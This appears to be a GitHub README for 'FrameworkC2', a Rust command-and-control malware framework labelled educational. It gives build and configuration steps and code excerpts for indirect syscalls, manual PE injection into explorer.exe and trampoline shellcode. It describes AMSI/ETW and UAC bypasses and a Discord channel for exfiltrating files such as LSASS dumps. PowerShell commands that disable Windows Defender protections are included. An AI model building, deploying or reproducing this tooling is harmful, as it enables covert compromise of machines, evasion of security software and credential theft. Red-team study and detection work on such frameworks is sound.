








# FrameworkC2 - Educational C2 Framework in Rust

> **DISCLAIMER**: This project is for **EDUCATIONAL AND RESEARCH PURPOSES ONLY**.
> Do not use this code for malicious purposes. The authors are not responsible for any misuse.

## Overview

FrameworkC2 is a modular Command & Control framework written in Rust, designed to demonstrate:
- PE parsing and manual mapping techniques
- Indirect syscalls for API evasion
- Discord-based C2 communication
- AMSI/ETW bypass techniques
- Cross-compilation from macOS/Linux to Windows

---

## Architecture Overview



---

## Project Structure

```
FrameworkC2/
├── Cargo.toml                 # Workspace configuration
├── README.md                  # This file
│
├── common/                    # Shared library (c2_common)
│   ├── Cargo.toml
│   └── src/
│       ├── lib.rs
│       ├── syscalls/          # Indirect syscalls
│       │   ├── mod.rs
│       │   ├── obf.rs         # String obfuscation, DJB2 hash
│       │   ├── resolve.rs     # SSN resolution via PEB
│       │   └── syscall.rs     # syscall! macro + ASM
│       └── pe/                # PE Loader
│           ├── mod.rs
│           ├── structs.rs     # PE structures
│           ├── parser.rs      # PE parser
│           └── loader.rs      # Full PE loader
│
├── loader/                    # Initial loader (EXE)
│   ├── Cargo.toml
│   └── src/main.rs            # Injection into explorer.exe
│
├── beacon/               # Beacon DLL
│   ├── Cargo.toml
│   ├── config.toml            # Embedded configuration
│   └── src/
│       ├── lib.rs             # DllMain + exports
│       ├── config.rs          # Config loading
│       ├── bypass.rs          # AMSI/ETW bypass
│       ├── discord/           # Discord C2
│       │   ├── mod.rs
│       │   ├── client.rs      # API client
│       │   └── models.rs      # Data structures
│       └── commands/          # Command handlers
│           ├── mod.rs
│           ├── shell.rs       # PowerShell execution
│           ├── screenshot.rs  # Multi-monitor capture
│           ├── loaddll.rs     # PE loader integration
│           ├── upload.rs      # File upload to Discord
│           ├── kill.rs        # Beacon self-termination
│           └── uacbypass.rs   # UAC bypass via CMSTPLUA
│
├── tools/                     # Helper tools
│   └── xor_encrypt.py         # XOR encryption for payloads
│
└── test_dll/                  # Simple test DLL for loaddll testing
```

---

## Components

### Loader (loader.exe)
- Indirect syscalls (no direct ntdll calls)
- PE parsing and remote mapping
- Relocation patching
- IAT resolution
- Section memory protection
- Trampoline shellcode for DllMain

### Beacon (beacon.dll)
- Auto-start on DllMain (spawns worker thread)
- Discord C2 communication
- AMSI/ETW bypass (hardware breakpoints)
- Commands:
  - `!shell <command>` - Execute PowerShell
  - `!scr` - Screenshot all monitors
  - `!loaddll` - Load DLL from attachment (XOR encrypted)
  - `!upload <path>` - Upload file from target to Discord (chunked, handles locked files)
  - `!uacbypass [cmd]` - Execute command with elevated privileges
  - `!kill` - Terminate the beacon (unload DLL)
  - `!help` - Show available commands

### PE Loader (c2_common)
- Full PE64 parsing
- Section mapping
- Base relocations (DIR64, HIGHLOW)
- Import resolution (IAT)
- TLS callbacks support
- Memory protection per section
- Exception table registration (x64 SEH)

---

## Technical Deep Dive

### Loader Injection Flow (Manual Mapping)

This is **NOT reflective injection**. The loader uses **Manual Mapping** (also called PE Injection):



#### Key Difference: Manual Mapping vs Reflective Injection

| Aspect | Reflective Injection | Manual Mapping (this loader) |
|--------|---------------------|------------------------------|
| **Who loads the PE?** | PE loads itself from target memory | External loader prepares everything |
| **Where is IAT resolved?** | In target process | In loader process (local) |
| **Loading code location** | Embedded in injected PE | In external loader |
| **Technique** | Self-loading shellcode stub | Remote PE mapping + thread injection |

**Why does local IAT resolution work?**
- On the same Windows machine, system DLLs (kernel32.dll, ntdll.dll) are mapped at the **same virtual address** in all processes
- The loader resolves imports using `LoadLibraryA`/`GetProcAddress` locally
- These addresses remain valid when written to the remote process

---

### Indirect Syscalls Mechanism

The framework uses indirect syscalls to bypass userland hooks placed by EDR/AV software.





#### SSN Resolution Process



#### Code Explanation: SSN Resolution

```rust
// common/src/syscalls/resolve.rs

pub fn get_ssn(hash: u32) -> (u16, u64) {
    // 1. Find ntdll.dll by traversing PEB->Ldr->InLoadOrderModuleList
    let ntdll_addr = get_module_addr(crate::obf!("ntdll.dll"));

    // 2. Find function by hash in ntdll's export table
    let funct_addr = get_function_addr(ntdll_addr, hash);

    // 3. Extract SSN from function prologue
    // Typical NT function prologue:
    //   4C 8B D1          mov r10, rcx
    //   B8 XX 00 00 00    mov eax, SSN  <- SSN at offset +4
    let ssn = unsafe { *((funct_addr as u64 + 4) as *const u16) };

    // 4. Get syscall;ret gadget address (typically at +0x12)
    let ssn_addr = funct_addr as u64 + 0x12;

    (ssn, ssn_addr)
}
```

#### Inline Assembly: Syscall Execution

```asm
; common/src/syscalls/syscall.rs (simplified)

do_syscall:
    mov eax, ecx           ; EAX = SSN (1st parameter)
    mov r12, rdx           ; R12 = gadget address (2nd parameter)

    ; Shift arguments: syscall uses r10 instead of rcx
    mov r10, r9            ; 4th arg
    mov rdx, [rsp + 0x28]  ; 5th arg (from stack)
    mov r8, [rsp + 0x30]   ; 6th arg
    mov r9, [rsp + 0x38]   ; 7th arg

    ; Handle additional stack arguments...

    jmp r12                ; Jump to ntdll gadget (syscall; ret)
```

---

### PE Loading Process

```mermaid
flowchart TD
    subgraph "PE Loader Steps"
        Parse["1. Parse PE<br/>Validate DOS/NT headers"]
        Alloc["2. Allocate Memory<br/>Try preferred base, else system chooses"]
        Headers["3. Copy Headers<br/>First size_of_headers bytes"]
        Sections["4. Map Sections<br/>Copy raw data to virtual addresses"]
        Reloc["5. Apply Relocations<br/>If actual_base != preferred_base"]
        IAT["6. Resolve IAT<br/>LoadLibrary + GetProcAddress"]
        Protect["7. Protect Sections<br/>RX, RW, R based on characteristics"]
        Exception["8. Register Exceptions<br/>RtlAddFunctionTable for x64 SEH"]
        TLS["9. TLS Callbacks<br/>If present"]
        DllMain["10. Call DllMain<br/>DLL_PROCESS_ATTACH"]
    end

    Parse --> Alloc --> Headers --> Sections --> Reloc --> IAT --> Protect --> Exception --> TLS --> DllMain
```



#### Relocation Types Supported

| Type | Value | Description | Patch Size |
|------|-------|-------------|------------|
| `IMAGE_REL_BASED_ABSOLUTE` | 0 | Padding, skip | N/A |
| `IMAGE_REL_BASED_HIGH` | 1 | High 16 bits | 2 bytes |
| `IMAGE_REL_BASED_LOW` | 2 | Low 16 bits | 2 bytes |
| `IMAGE_REL_BASED_HIGHLOW` | 3 | Full 32-bit address | 4 bytes |
| `IMAGE_REL_BASED_DIR64` | 10 | Full 64-bit address | 8 bytes |

#### Code Explanation: Relocation Patching

```rust
// common/src/pe/loader.rs

unsafe fn apply_relocations(pe: &PeParser, base: *mut u8, original_base: u64) {
    // Calculate delta between actual and preferred base
    let delta = (base as u64).wrapping_sub(original_base) as i64;

    for (block, entries) in pe.iter_relocations() {
        for entry in entries {
            let addr = base.add((block.virtual_address + entry.offset()) as usize);

            match entry.reloc_type() {
                IMAGE_REL_BASED_DIR64 => {
                    // 64-bit address: add delta
                    let ptr = addr as *mut i64;
                    *ptr = (*ptr).wrapping_add(delta);
                }
                IMAGE_REL_BASED_HIGHLOW => {
                    // 32-bit address: add delta (truncated)
                    let ptr = addr as *mut i32;
                    *ptr = (*ptr).wrapping_add(delta as i32);
                }
                // ... other types
            }
        }
    }
}
```

---

### AMSI/ETW Bypass

The beacon uses hardware breakpoints (Debug Registers Dr0-Dr3) to intercept and bypass security functions.



---

### DllMain Trampoline

The loader creates a small shellcode to properly call DllMain with correct arguments:



#### Trampoline Assembly

```rust
// loader/src/main.rs

fn generate_trampoline(entry_point_rva: u32) -> Vec<u8> {
    let mut shellcode = Vec::new();

    // RCX already contains BaseAddress (from lpParameter)

    // 1. mov edx, 1 (DLL_PROCESS_ATTACH)
    shellcode.extend_from_slice(&[0xBA, 0x01, 0x00, 0x00, 0x00]);

    // 2. xor r8d, r8d (lpvReserved = NULL)
    shellcode.extend_from_slice(&[0x45, 0x31, 0xC0]);

    // 3. mov rax, rcx (copy base address)
    shellcode.extend_from_slice(&[0x48, 0x89, 0xC8]);

    // 4. add rax, entry_point_rva
    shellcode.extend_from_slice(&[0x48, 0x05]);
    shellcode.extend_from_slice(&entry_point_rva.to_le_bytes());

    // 5. sub rsp, 0x28 (stack alignment + shadow space)
    shellcode.extend_from_slice(&[0x48, 0x83, 0xEC, 0x28]);

    // 6. call rax
    shellcode.extend_from_slice(&[0xFF, 0xD0]);

    // 7. add rsp, 0x28
    shellcode.extend_from_slice(&[0x48, 0x83, 0xC4, 0x28]);

    // 8. ret
    shellcode.push(0xC3);

    shellcode
}
```

---

### Discord C2 Communication



---

## Building

### Prerequisites

```bash
# Install Rust
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

# Add Windows target
rustup target add x86_64-pc-windows-gnu

# Install MinGW (macOS)
brew install mingw-w64

# Install MinGW (Ubuntu/Debian)
sudo apt install mingw-w64
```

### Build Commands

```bash
cd FrameworkC2

# Build everything
cargo build --release --target x86_64-pc-windows-gnu

# Build specific crate
cargo build --release --target x86_64-pc-windows-gnu --package beacon
cargo build --release --target x86_64-pc-windows-gnu --package loader

# Output files
ls -la target/x86_64-pc-windows-gnu/release/
# - beacon.dll      (~2.2 MB)
# - loader.exe      (~1.1 MB)
```

### Encrypt Beacon for Loader

```bash
# Encrypt beacon.dll for embedding in loader
python3 tools/xor_encrypt.py \
    target/x86_64-pc-windows-gnu/release/beacon.dll \
    beacon.dll.enc \
    41

# Copy to project root (loader expects it there)
cp beacon.dll.enc ./

# Rebuild loader with embedded beacon
cargo build --release --target x86_64-pc-windows-gnu --package loader
```

---

## Configuration

### Beacon Configuration

Edit `beacon/config.toml` before building:

```toml
[discord]
api_url = "https://discord.com/api/v10"
bot_token = "YOUR_BOT_TOKEN_HERE"
guild_id = "YOUR_GUILD_ID_HERE"
general_channel_id = "YOUR_CHANNEL_ID_HERE"

[settings]
poll_interval_secs = 5

[crypto]
xor_key = "41"  # Hex key for loaddll decryption
```

### Discord Bot Setup

1. Go to [Discord Developer Portal](https://discord.com/developers/applications)
2. Create a new application
3. Go to "Bot" section, create a bot
4. Enable "Message Content Intent"
5. Copy the bot token
6. Go to OAuth2 -> URL Generator:
   - Scopes: `bot`
   - Permissions: `Manage Channels`, `Send Messages`, `Attach Files`, `Read Message History`
7. Invite bot to your server
8. Get Guild ID and Channel ID (enable Developer Mode in Discord settings)

---

## Usage

### Commands

| Command | Format | Description |
|---------|--------|-------------|
| Shell | `!shell <cmd>` | Execute PowerShell command |
| Screenshot | `!scr` | Capture all monitors to PNG |
| Load DLL | `!loaddll [name]` | Load XOR-encrypted DLL from attachment |
| Upload | `!upload <path>` | Upload a file from target to Discord |
| UAC Bypass | `!uacbypass [cmd]` | Execute with elevated privileges |
| Kill | `!kill` | Terminate the beacon (unload DLL) |
| Help | `!help` | Show available commands |

### Uploading Files

The `!upload` command reads a file from the target machine and sends it as a Discord attachment.

- **Locked files**: Opens with `FILE_SHARE_READ|WRITE|DELETE` flags to read files held by other processes
- **SeDebugPrivilege**: Automatically enabled before reading (helps with protected files when running elevated)
- **Chunking**: Files > 7 MB are automatically split into parts (`file.dmp.part1`, `.part2`, etc.) to fit Discord's upload limit

```bash
# Simple file upload
!upload C:\Users\victim\Desktop\secrets.txt

# Upload a locked dump file (beacon must run elevated)
!upload C:\temp\lsass.dmp

# Reassemble chunked files (PowerShell)
Get-Content file.dmp.part* -Raw -Encoding Byte | Set-Content file.dmp -Encoding Byte

# Reassemble chunked files (Linux/macOS)
cat file.dmp.part* > file.dmp
```

**Note**: For files protected by NTFS ACLs (e.g. LSASS dumps created by SYSTEM), the beacon must run with admin privileges. You can use `!uacbypass icacls <file> /grant Everyone:R` first to grant read access.

### Loading Additional DLLs

**Important**: DLLs must be compiled **without the C Runtime (CRT)** to work with the PE Loader.

```bash
# Compile DLL without CRT (required!)
x86_64-w64-mingw32-gcc -shared -nostdlib -e DllMain -o payload.dll payload.c -lkernel32 -luser32

# Encrypt DLL for loading
python3 tools/xor_encrypt.py payload.dll payload.dll.enc 41

# In Discord:
# 1. Attach payload.dll.enc to message
# 2. Type: !loaddll
# 3. Beacon downloads, decrypts, and loads the DLL
```

```bash
# Turn off defender with uacbypass! (Doesn't work with tamper protection on)
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableScriptScanning $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableIntrusionPreventionSystem $true

# Turn off Cloud-delivered protection (MAPS)
Set-MpPreference -MAPSReporting 0

# Turn off Automatic sample submission
Set-MpPreference -SubmitSamplesConsent 0

# Check (AntivirusEnabled always true but didn't matter)
Get-MpComputerStatus | Select-Object AntivirusEnabled, RealTimeProtectionEnabled, IoavProtectionEnabled, BehaviorMonitorEnabled, OnAccessProtectionEnabled, IsTamperProtected
```

**Doc**: https://learn.microsoft.com/en-us/powershell/module/defender/set-mppreference?view=windowsserver2025-ps

**Note**: The beacon prevents loading the same DLL twice (detected via DJB2 hash).

---

## Evasion Techniques Summary

| Technique | Component | Description |
|-----------|-----------|-------------|
| Indirect Syscalls | Loader, Beacon | Jump to ntdll gadgets, bypass userland hooks |
| Manual PE Mapping | Loader | No LoadLibrary calls, manual section/reloc/IAT |
| XOR Encryption | Loader | Beacon encrypted at rest, decrypted at runtime |
| Hardware Breakpoints | Beacon | AMSI/ETW bypass via Dr0-Dr3 + VEH |
| String Obfuscation | Common | Compile-time DJB2 hashing for API names |
| No Console | Beacon | DLL runs silently, no window |
| Discord C2 | Beacon | Legitimate HTTPS traffic, blends with normal traffic |

---

## Limitations

- Windows x64 only
- Requires Discord bot token (OPSEC consideration)
- Large DLL size due to Rust runtime (~2.2 MB)
- Screenshot requires GUI session
- DLLs for `!loaddll` must not use CRT

---

## References

- [PE Format Specification](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)
- [Windows Syscalls Table](https://j00ru.vexillium.org/syscalls/nt/64/)
- [AMSI Bypass Techniques](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- [Discord API Documentation](https://discord.com/developers/docs/intro)
- [Reflective DLL Injection (Stephen Fewer)](https://github.com/stephenfewer/ReflectiveDLLInjection)

---

## License

This project is provided for educational purposes only. No license for production use.
